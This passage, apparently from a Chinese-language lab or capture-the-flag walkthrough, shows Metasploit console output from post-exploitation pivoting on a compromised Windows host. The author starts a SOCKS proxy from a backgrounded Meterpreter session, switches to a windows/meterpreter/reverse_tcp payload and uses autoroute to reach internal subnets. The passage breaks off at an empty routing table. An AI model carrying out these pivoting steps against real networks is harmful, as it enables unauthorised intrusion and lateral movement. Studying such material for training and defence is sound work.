 

设置代理

```bash
meterpreter > background 
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > options 

Module options (auxiliary/server/socks_proxy):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   no        Proxy password for SOCKS5 listener
   SRVHOST   0.0.0.0          yes       The address to listen on
   SRVPORT   1080             yes       The port to listen on
   USERNAME                   no        Proxy username for SOCKS5 listener
   VERSION   5                yes       The SOCKS version to use (Accepted: 4a, 5)


Auxiliary action:

   Name   Description
   ----   -----------
   Proxy  Run a SOCKS proxy server


msf6 auxiliary(server/socks_proxy) > set srvhost 127.0.0.1
srvhost => 127.0.0.1
msf6 auxiliary(server/socks_proxy) > run
[*] Auxiliary module running as background job 0.

[*] Starting the SOCKS proxy server
```



发现设置的代理无法使用，重启了下代理，直接起不来了。。。

```bash
msf6 auxiliary(server/socks_proxy) > run
[*] Auxiliary module running as background job 259.

[*] Starting the SOCKS proxy server
[*] Stopping the SOCKS proxy server
```



重来一次，好了：（换了个Payload：`windows/meterpreter/reverse_tcp`）

```
meterpreter > run post/multi/manage/autoroute

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: windows
[*] Running module against WEB
[*] Searching for subnets to autoroute.
[+] Route added to subnet 10.10.10.0/255.255.255.0 from host's routing table.
[+] Route added to subnet 192.168.111.0/255.255.255.0 from host's routing table.

meterpreter > run autoroute -p

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]

Active Routing Table
====================
```